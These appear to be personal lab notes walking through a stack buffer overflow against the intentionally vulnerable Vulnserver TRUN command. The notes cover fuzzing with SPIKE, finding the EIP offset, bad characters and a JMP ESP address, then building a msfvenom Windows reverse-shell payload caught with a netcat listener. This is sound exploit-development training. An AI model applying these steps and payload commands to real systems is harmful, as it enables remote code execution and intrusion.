

ip of windows 10:192.168.57.13
by default vulnserver runs of port 9999
run both immunity debugger and vulnserver as administrator
#nc -nv 192.168.57.13 9999
vulnserver open on port 999 so connect to it


#generic_send_tcp 192.168.57.13 9999 stats.spk 0 0
stats not vulnerable
now spike trun
#generic_send_tcp 192.168.57.13 9999 trun.spk 0 0
this pauses immunity debugger
and also crashes vulnserver

EBP=41414141(hexadecimal)=AAAA(text equivalent)


need to / .:/ after trun coz in immunity there are these char after trun so we need to add them so it accepts the cmd

initially, buffer=100 times A i.e 100 A's
connect to vulnerable machine ip(windows 10 ip)
vulnserver runs on port 9999
connect and send TRUN .:/+buffer
keep sending buffer as long as there is a connection
when connection closes,except part of code runs returning when the connection was closed since vulnserver crashes


didnt overwrite the EIP,just the crash occured
Finding where we overwrite EIP
#/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

generate offset of length 3000 bytes
vulnserver crashed near 2100 Bytes but here we generate more length offset coz we also need to find EIP offset so we need more character(or more Bytes)
in python,1 char =1 Byte

paste the pattern in 2.py and run it

EIP has a pattern: 386F4337

at 2003 bytes we can control EIP
EIP has 2003 bytes before it
Overwriting EIP
EIP: 386F4337=6 hex= 4 bytes
so EIP is 4 bytes long

send A 2003 times=2003 bytes till we reach EIP
next send B 4 times or 4 Bytes which will be reflected in EIP if everything we did was correct

BBBB=42424242 (in hex)

EBP:41414141=AAAA
EIP=42424242(so what we did was correct)
Finding Bad Characters
badchars - https://github.com/cytopia/badchars
some chars are good for shellcode and some are bad for shell code
**by default x00(null char) is a badchar so remove it from copied badchars

for some reason ./4.py dosent work but python3 4.py works so use
#python3 4.py
again vulnserver crashes but this time we are interested in hexdump

do this


same value as that in ESP
we sent x01 so we expect 1
then x02=2 and so on
we sent till FF so check if anything out of place till FF
there are none
if there were any like
10 11 13 ..
that means 12 is a badchar
if consecutively badchar eg
10 11 B0 B1 14..
only the first 1 is badchar so on B0 is bad char not B1
Finding right Module
!mona module :in the white space

that pops up a window like this
we are looking for ssomething attached to vulnserver and having all FALSE since false means no protection
that module here is essfunc.dll

tool:nasm_shell
find hex equivalent of assembly


JMP ESP= FFE4
#!mona find -s "\xff\xe4" -m essfunc.dll
since essfunc.dll has no protection on

0x625011af:return address
note it down and write it in .py file
x86 stores lowerbyte at lower address and higher byte at higher address so code will be(this format of storing called Little Endian format)

gonna throw same error but should jmp

click on red marked arrow and type return address

click on address and press F2 to add break point
what break point does is it allows to excute/overflow before it but as soon as it reaches that address, it stops for further instructions
run code
#python3 5.py

instead of payload.encode()
write b in front of "A" and "TRUN / .:/"
this means we are byte encoding
this is done when patload.encode dosent work sometimes

625011af reflected in EIP
#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.57.5 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

-p:payload
set payload for windows
LHOST: us
-a:architechture
-b:badchar
\x00 nullbyte always a badchar


2003 bytes to reach to EIP,when we reach to EIP, JMP to ESP and provide set of instructions i.e overflow which will excute reverse shell
write b infront of all quotes for byte encoding
jump to given address and excute the payload
x90:NOP(no operation) used for adding padding space
we are giving 32 Bytes padding of NOP
#nc -nvlp 4444
#python3 6.py

aanddd we get a reverse shell